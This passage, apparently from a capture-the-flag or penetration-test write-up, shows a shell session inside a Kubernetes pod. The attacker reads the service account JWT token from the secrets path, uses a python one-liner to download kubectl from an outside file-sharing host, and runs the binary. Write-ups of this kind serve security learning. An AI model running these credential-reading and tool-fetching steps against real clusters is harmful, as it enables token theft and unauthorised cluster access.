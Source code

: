 Viewing the JWT token and setting it into a variable,

```c
$ cat /run/secrets/kubernetes.io/serviceaccount/token
cat /run/secrets/kubernetes.io/serviceaccount/token
<JWT TOKEN VALUE>

$ token=<JWT TOKEN VALUE>
```

Download ```kubectl``` from [here](https://storage.googleapis.com/kubernetes-release/release/v1.5.3/bin/linux/amd64/kubectl)

Since we don't have ```wget``` and ```curl```, we need to use a python oneliner to download ```kubectl```,

```c
$ cd /tmp
cd /tmp
$ python3 -c "import urllib.request;urllib.request.urlretrieve('http://bashupload.com/qPWJS/kubectl','kubectl')"
python3 -c "import urllib.request;urllib.request.urlretrieve('http://bashupload.com/qPWJS/kubectl','kubectl')"
$ ls -la
ls -la
total 49188
drwxrwxrwt 1 root   root        4096 Jan  9 06:22 .
drwxr-xr-x 1 root   root        4096 Jan  8 08:02 ..
-rw-r--r-- 1 nobody nogroup 50359943 Jan  9 06:22 kubectl
$ chmod +x kubectl
chmod +x kubectl
$ ls -la
ls -la
total 49188
drwxrwxrwt 1 root   root        4096 Jan  9 06:22 .
drwxr-xr-x 1 root   root        4096 Jan  8 08:02 ..
-rwxr-xr-x 1 nobody nogroup 50359943 Jan  9 06:22 kubectl
```

Now we should be able to run ```kubectl``` inside ```/tmp```,

```c
$ ./kubectl
./kubectl
kubectl controls the Kubernetes cluster manager. 

Find more information at https://github.com/kubernetes/kubernetes.

Basic Commands (Beginner):
  create         Create a resource by filename or stdin
  expose         Take a replication controller, service, deployment or pod and expose it as a new Kubernetes Service
  run            Run a particular image on the cluster
  set            Set specific features on objects

...

```
